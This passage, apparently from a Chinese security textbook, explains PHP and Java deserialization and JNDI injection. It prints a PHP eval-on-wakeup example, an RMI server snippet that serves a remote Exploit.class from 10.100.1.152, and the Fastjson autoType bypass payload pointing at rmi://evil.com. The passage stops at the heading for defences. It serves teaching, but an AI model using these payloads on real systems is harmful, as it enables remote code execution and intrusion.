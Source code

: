 ```
        //some PHP code
    }
    function __wakeup(){
        if(isset($this->hook)) eval($this->hook);
    }
}
$user_data = unserialize($_COOKIE[data]);
```
Example类中的__wakeup()方法会在反序列化之后自动执行。当攻击者条如下代码的反序列化值的URL编码后的数据时，将导致代码执行：
```
class Example{
    private $hook = "phpinfo();";
}
print urlencode(serialilze(new Example));
```
在Java Web应用中，反序列化漏洞更加常见，实现了java.io.Serializable接口的类的对象都可以序列化，其反序列化漏洞与上述PHP反序列化的原理类似。
在Java应用中，JNDI注入最近非常热门。JNDI(Java Naming and  Directory Interface)是sun公司提供的一种标准的Java命令系统接口，它提供一个目录系统，将服务名称与对象关联起来，使得开发人员在开发过程中可以使用服务名称来访问对象。比如访问DNS服务、LDAP服务、RMI等，都可以通过JNDI API进行统一处理。
JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI API来访问和调用。JNDI API在初始化时，可以将一个RMI URL作为参数传入，如：
```
Context context = new InitialContext();
context.lookup(url);
```
如果这里lookup()名称由攻击者控制，攻击者就可以将这个地址指向恶意的RMI/LDAP/CORBA服务器，并响应任意对象。如果此对象是javax.naming.Refernce类(JNDI的一部分，用于表示对命名和目录服务中的对象的应用)的实例，JNDI客户端(即被攻击的应用)将尝试解析此对象的classFactory和classFactoryLocation属性。如果当前应用中classFactory类未定义，应用将通过URLClassLoader从classFactoryLocation指定的位置获取classFactory的字节码，然后调用其getObjectInstance方法。通过这种方式，攻击者就能让目标Java应用执行任意代码。
假设攻击者传入如下URL：
`?url=rmi://10.100.1.152/Object`
然后这个RMI服务，将/Object路径绑定到一个Reference对象上，而这个Reference对象的classFactory来自一个字节码文件http://10.100.1.152:8000/Exploit.class，其中包含了需要执行的恶意代码，攻击者提前编译好class文件放在http服务上即可。
```
Registry registry = LocateRegistry.createRegistry(1099);
Reference reference = new Reference("Exploit","Exploit","http://10.100.1.152:8000/");
ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
registry.bind("Object",referenceWrapper);
```
通过这种方式，攻击者可以让目标应用加载任意Java类，这种攻击方式的利用条件是lookup()的参数由外部输入控制。此处示例是直接传入外部URL来调用lookup() ，一些常见的库也会间接在内部调用lookup()方法，如果能控制其参数，也能发起攻击。
攻击者常用的一个类是`com.sun.rowset.JdbcrowSetImpl`，它dataSource属性支持使用JNDI命名服务，底层会调用lookup()根据dataSourceName属性获取DataSource对象，所以构造dataSourceName的值可能产生JNDI注入：
```
InitialContext varl = new InitialContext();
//JNDI注入
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceNamme());
```
在Java中，很多第三方库也支持序列化和反序列化，如大家熟知的Fastjson，可以讲Java对象序列化为JSON字符串，通过AutoType特性将对象的类型用一个字段"@type"记录记录下来，在反序列化时根据这个字段还原成相应类型的对象。根据这个特性，攻击者构造一个JSON字符串，通过指定"@type"字段为一个危险的类，就可以注入危险对象，实现远程代码执行。
虽然Fastjson加入了黑名单类过滤功能，但是在低于或等于1.2.47的版本中，攻击者发现了绕过黑名单检测的方法，使用受漏洞影响的Fastjson版本解析如下JSON数据就能加载恶意的类：
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```
Apache Shiro也是常用的Java库，它有一个记住密码的功能(RememberMe)，实际上是将会话信息序列化后再加密，然后存储在客户端Cookie中。攻击者在没有密钥的情况下无法篡改序列化后的数据，但是如果开发者没有修改Shiro的默认密码，攻击者就能实现恶意操作。
**对象注入防御**